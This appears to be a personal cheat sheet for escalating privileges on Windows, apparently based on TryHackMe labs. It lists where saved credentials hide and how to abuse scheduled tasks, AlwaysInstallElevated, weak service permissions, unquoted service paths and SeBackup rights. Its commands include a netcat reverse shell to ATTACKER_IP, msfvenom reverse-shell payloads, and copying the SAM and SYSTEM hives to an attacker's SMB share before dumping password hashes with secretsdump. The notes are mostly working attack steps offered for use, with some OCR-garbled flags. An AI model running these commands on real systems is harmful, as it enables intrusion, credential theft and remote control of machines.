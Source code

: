 # Windws priv sec
NOTE: Checkout winpeas
1. Saved passwords (Search for pwoershell history in `ConsoleHost_history.txt` at C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline )
## when mass deployed
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
## powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
## saved creds
cmdkey /list
runas /savecred /user:admin cmd.exe

## saved IIS configuration
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

## putty proxy configuration
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

## scheduled tasks
- `schtasks /query /tn vulntask /fo list /v`  this command trims down the output
- just check the `Task To Run` and `Run As`
- `icacls <binary_from_task_to_run>`
- If you can modify binary, then you can run ur own code `echo c:\tools\nc64.exe-e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`
	
## AlwaysInstallElevated
- MSI files, if some registry keys have been set, can run with higher priviliges 
- keys to check `C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
- Generate the payload `msfvenom-p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.247.41 LPORT=LOCAL_PORT-f msi-o malicious.msi`
- Run the payload `C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Insecure Permissions on Service Executable
- `sc qc <Service_name>`
- `icacls <binary>`
- Can u modify it?
- msfvenom-p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445-f exe-service-o rev-svc.exe
- setup a python http server, in powershell download using wget
- move the original service binary file, since the service binary will be run by another user, change permission  `icacls WService.exe /grant Everyone:F`
- `sc stop <service>` `sc start <service>`
- not any binary can be run as service, so be careful

## Unquoted Service Paths
- If task to run binary path is not properly quoted like `C:\MyPrograms\Disk Sorter Enterprise\bin`
- sc will look for `C:\MyPrograms\Disk.exe` `C:\MyPrograms\Disk Sorter.exe` and `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` respectively
- If u can create such files in the directories, like Disk.exe, u can modify which service is executed.

## Insecure Service Permissions
- not of binary, but of service itself
- can use tool from https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
- accesschk64.exe-qlc <service_name>
- `icacls C:\Users\me\bin.exe /grant Everyone:F`
- `sc config THMService binPath= "C:\Users\me\bin.exe" obj= LocalSystem`
- sc stop and start again

## Windows Privliges
- to check your privilige `whoami /priv`
- use methods from https://github.com/gtworek/Priv2Admin
- tryhackme had `SeBackup / SeRestore` lab
```
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.


user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py-smb2support-username THMBackup-password CopyMaster555 public share
   

C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

        

And use impacket to retrieve the users' password hashes:
Kali Linux

user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py-sam sam.hive-system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792- Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```
## Other stuffs
- search for installed programs and exploit any known vulnerabilities `wmic product get name,version,vendor` may also need to check desktop shortcut, services and other indicator of installed apps.
- Additional tools to use `https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS` `https://github.com/itm4n/PrivescCheck` `https://github.com/bitsadmin/wesng` `metasploit multi/recon/local_exploit_suggester`
